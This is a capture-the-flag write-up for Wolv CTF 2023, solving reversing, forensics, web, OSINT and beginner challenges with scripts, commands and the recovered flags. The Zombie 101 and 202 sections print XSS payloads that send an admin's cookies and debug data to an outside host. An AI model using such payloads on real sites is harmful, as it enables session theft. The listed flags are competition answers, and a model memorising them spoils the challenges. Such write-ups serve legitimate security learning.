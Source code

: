 # Wolv CTF 2023

Platz 117 von 599, mit 12 gelösten Challenges

## Challenges

### REV

#### homework_help

Another xor challenge. This time we also had static data in the binary but the xor key was changing for each iteration. We wrote an PHP script to mimic the algorithm.

```php
<?php

$comp = pack('C', 0x36);

$xor = [
    pack('C', 0x41),
    pack('C', 0x14),
    pack('C', 0x17),
    pack('C', 0x12),
    pack('C', 0x1d),
    pack('C', 0x50),
    pack('C', 0x46),
    pack('C', 0x5d),
    pack('C', 0x42),
    pack('C', 0x41),
    pack('C', 0x6c),
    pack('C', 0x33),
    pack('C', 0x5d),
    pack('C', 0x5a),
    pack('C', 0x0e),
    pack('C', 0x3a),
    pack('C', 0x6a),
    pack('C', 0x41),
    pack('C', 0x40),
    pack('C', 0x57),
    pack('C', 0x08),
    pack('C', 0x34),
    pack('C', 0x3c),
    pack('C', 0x0b),
    pack('C', 0x03),
    pack('C', 0x34),
    pack('C', 0x28),
    pack('C', 0x46),
    pack('C', 0x5f),
    pack('C', 0x53),
    pack('C', 0x10),
    pack('C', 0x50)
];

for ($i = 0; $i <32; $i++) {
    $comp = $comp ^ $xor[$i];
    echo $comp;
}
```

wctf{+m0r3_l1ke_5t4ck_chk_w1n=-}

#### child_re

Just some hiden function in the binary that xors the following bytes with arg1. We brute forced arg1 with cyberchef. It's 0xa2.

```
5d495e4c51621b5e
4942421b4119581f
756d5f1b4e19755e
1a755e4219756d1e
461e52530b0b751e
1857
```

wctf{H1tchh1k3r5_Gu1d3_t0_th3_G4l4xy!!_42}

#### ej

In the binary you can find a map 6x6:

```
00 00 00 00 00 00 
00 00 01 01 00 00 
00 00 01 00 00 00 
00 00 01 00 00 01 
00 00 00 01 02 00 
02 00 00 00 00 02
```

You start at the top left and you have to finish at the top left. You can input a combination of u, d, l and r to move up, down, left and right.

Conditions:

- If you move on a 01 the previous move has to be the same move. 
- If you move on a 02 the next move has to be the same move.
- You have to cross all the 02s.
- You have to enter 02 in a line of at least 2 fields.

The following combinations work but yield a corrupt flag:

```
dddddrrrrruuulddllluuuul             //24
dddddrrrrruuulddlllurrullurrrrulllll //36
dddddrrrrruuulddllluuurrrrulllll     //32
rrrrrdddddllllluurdrrruuullllu       //30
rrrrrdddddllllluurdrrruulllluu       //30
rddddrrruurdddllllluuuuu             //24
rrrrrdlllldddrrruurdddllllluuuuu     //32
rrrrrdddddllllluuurddrrruuullllu     //32
dddddrrrrruuulddlluuuull             //24
dddddrrrrruuuuulddddllluuuul         //28
rrrrrdddddllllluurdrrruuullldluu

```

We probably need to find the correct path. The flag seems to be of length 32. These are the bytes of the encoded flag:

```!
d089979577406768d59ded42ca2af5a75981df78763584b76963358efe2e4d19
```

### FORENSIC

#### Dino

1. Extract `epicfight.jpg` from the pcapng file.
2. Run `steghide extract -sf epicfight.jpg`.
3. Reveals a base64 string `d2N0Znthbl8xbWFnZV9pbl9hX3BlZWNhcF9iNjR9`

wctf{an_1mage_in_a_peecap_b64}

### WEB

#### Zombie 101

You can inject javascript into the `/zombie` endpoint and use that xss in the `/visit` endpoint to execute javascript inside the admins browser:

Final URL for `/visit`:

```!
https://zombie-101-tlejfksioa-ul.a.run.app/zombie?show=%3Cscript%3Efetch(%27https://mbuelow.dev/dump/index.php?cookies=%27%2Bdocument.cookie);%3C/script%3E
```

Actual payload:

```
<script>
fetch('https://mbuelow.dev/dump/index.php?cookies='+document.cookie);
</script>
```

wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261}

#### Zombie 202

Same as in Zombie 101 but we fetch the cookie from a separate web call from `/debug` first.

Final URL vor `/visit`:

```!
https://zombie-201-tlejfksioa-ul.a.run.app/zombie?show=%3Cscript%3Evar%20b%20=%20async%20()%20=%3E%20fetch(%27https://mbuelow.dev/dump/index.php?data=%27%2BJSON.stringify(await%20(await%20fetch(%27https://zombie-201-tlejfksioa-ul.a.run.app/debug%27)).json()));%20b()%3C/script%3E
```

Actual payload:

```!
<script>
var b = async () => fetch('https://mbuelow.dev/dump/index.php?data='+JSON.stringify(await (await fetch('https://zombie-201-tlejfksioa-ul.a.run.app/debug')).json()));
b();
</script>
```

wctf{h1dd3n-c00k135-d1d-n07-h31p-373964}

### MISC

#### Switcheroo

Register for [b01lersCTF](https://ctf.b01lers.com/home) and go to the challenge `Switcheroo`. YOu can find the flag there. Base64 encoded.

wctf{M41z3_4nd_Blu3}

### OSINT

#### WannaFlag 1

https://www.google.de/maps/place/The+Cube/@42.2758849,-83.7440605,17.29z/data=!4m8!3m7!1s0x883cae3897494825:0xb2adec7980125508!8m2!3d42.2758948!4d-83.7418941!9m1!1b1!16s%2Fg%2F1yg6ngznr
nc wanna-flag-i.wolvctf.io 1337


### Beginner

#### Rockyou

use zip2johen and than rockyou list
wctf{m1cH1g4n_4_3v3R}

#### Charlottesweb

got to /src
inspect py file
make put request to get flag
wctf{y0u_h4v3_b33n_my_fr13nd___th4t_1n_1t53lf_1s_4_tr3m3nd0u5_th1ng}

#### baby-re

download & strings
wctf{Oh10_Stat3_1s_Smelly!}

#### yowahtsthepassword

bruteforce
```python=
kk = 0

while kk != int(base64.b64decode(secret).hex(), 16):
  if kk % 100000000 == 0:
    print(kk)
  kk = kk + 1
print(kk)
```
2536466855
wctf{ywtp}

#### baby-pwn

enter looong string
wctf{W3lc0me_t0_C0stc0_I_L0v3_Y0u!}